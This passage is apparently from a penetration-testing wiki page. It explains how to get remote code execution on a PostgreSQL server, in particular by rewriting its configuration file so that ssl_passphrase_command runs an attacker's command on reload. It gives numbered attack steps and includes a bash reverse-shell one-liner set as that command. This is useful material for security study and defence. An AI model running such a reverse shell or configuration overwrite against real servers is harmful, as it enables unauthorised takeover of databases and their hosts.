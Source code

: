 {{#ref}}
../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md
{{#endref}}

### RCE with PostgreSQL extensions

Once you have **learned** from the previous post **how to upload binary files** you could try obtain **RCE uploading a postgresql extension and loading it**.

{{#ref}}
../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md
{{#endref}}

### PostgreSQL configuration file RCE

> [!TIP]
> The following RCE vectors are especially useful in constrained SQLi contexts, as all steps can be performed through nested SELECT statements

The **configuration file** of PostgreSQL is **writable** by the **postgres user**, which is the one running the database, so as **superuser**, you can write files in the filesystem, and therefore you can **overwrite this file.**

![](<../images/image (322).png>)

#### **RCE with ssl_passphrase_command**

More information [about this technique here](https://pulsesecurity.co.nz/articles/postgres-sqli).

The configuration file have some interesting attributes that can lead to RCE:

- `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Path to the private key of the database
- `ssl_passphrase_command = ''` If the private file is protected by password (encrypted) postgresql will **execute the command indicated in this attribute**.
- `ssl_passphrase_command_supports_reload = off` **If** this attribute is **on** the **command** executed if the key is protected by password **will be executed** when `pg_reload_conf()` is **executed**.

Then, an attacker will need to:

1. **Dump private key** from the server
2. **Encrypt** downloaded private key:
   1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Overwrite**
4. **Dump** the current postgresql **configuration**
5. **Overwrite** the **configuration** with the mentioned attributes configuration:
   1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
   2. `ssl_passphrase_command_supports_reload = on`
6. Execute `pg_reload_conf()`

While testing this I noticed that this will only work if the **private key file has privileges 640**, it's **owned by root** and by the **group ssl-cert or postgres** (so the postgres user can read it), and is placed in _/var/lib/postgresql/12/main_.
